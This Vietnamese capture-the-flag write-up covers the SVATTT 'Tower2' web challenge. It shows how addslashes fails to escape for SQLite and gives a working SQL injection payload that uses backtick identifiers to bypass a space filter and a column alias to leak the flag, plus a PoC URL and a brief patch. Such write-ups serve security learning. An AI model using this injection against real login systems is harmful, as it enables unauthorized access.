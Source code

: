 # Tower2:
Src unpatched [http://binaries.svattt.org:5000/unpatched/tower2/tower2.py](http://binaries.svattt.org:5000/unpatched/tower2/tower2.py)
```
http://tower2.svattt.org:5002/?source=1
Hint 1: addslashes for sqlite ?
Hint 2: ` 
Hint 3: """ Warning addslashes() should NOT be used to quote your strings for SQLite queries; it will lead to strange results when retrieving your data. """ - said php.net
```
## Exploit

Đây là một bài dạng web sử dụng python kết hợp database sqlite3 .  
Trong đề có sẵn đoạn code với mục đích in ra flag
```python
        for r in result:
            flag = _FLAG_ if 'flag' in r.keys() else ''
            if r[1] == 1:
                conn.close()
                return BODY_HTML.format("""
                    <h3>EHLO {user}!</h3>
                        <!-- DEBUG: {flag} -->
                </div>""".format(user=username,flag=flag))
```
Dựa vào gợi ý 1 và 3, backslash trong sqlite3 không phải là ký tự escape như trong mysql, ... do vậy function addslashes không có tác dụng.  
DEBUG: sử dụng sqlite3 cli trong ubuntu
```
sqlite> select '123\4';
123\4
```
với cấu trúc query như sau:  
"SELECT username,username='{}' AND password='{}' FROM users"  
Sử dụng gợi ý thứ 2, \` được dùng như 1 ký tự để xác định `identifier`, điều này giúp bypass việc lọc ký tự "space" (0x20), sử dụng -- để vô hiệu hóa phần còn lại.

```
username = 123'OR`username`!=
password = from`users`--
```
OR\`username\`!='xxxxx' (`xxxxx` là phần ' AND ...' đã chuyển thành string) nhằm mục đích cho cột 2 (r[1]) trả về giá trị 1  (có sẵn user` guest`)
Kết hợp lại ta có
```
SELECT username,username='123\'OR`username`!=' AND password='from`users`--' FROM users"
```
Để có flag là 1 từ khóa trong r.keys(), thực hiện debug với python-sqlite3 và local database tự tạo; dựa trên kết quả quan sát được, r.keys() là các tên cột trong câu lệnh select; cụ thể là  
"SELECT username,username='{}' AND password='{}' FROM users"  
Câu lệnh trên đưa ra 2 key là `username` và `username='<username>'` với username tùy chọn

Qua quá trình guessing thì với tên cột thứ 3 là username[4] trả về key '4';
-> final payload
```
username = 123'OR`username`!=
password = ,username[flag]from`users`--

SELECT username,username='123\'OR`username`!=' AND password=',username[flag]from`users`--' FROM users"
```
Not working [PoC](http://tower2.svattt.org:5002/login?username=guest%27OR%60username%60!%3D&password=%2Cusername[flag]from%60users%60--) *Patched by N/A ??*

Sau khi tìm hiểu lại thì thực chất`username[flag]` là username với alias flag, và [, `, " là tương đương nhau theo [document](https://www.sqlite.org/lang_keywords.html) của sqlite3.
## Patch:
bổ sung ' ở function filter.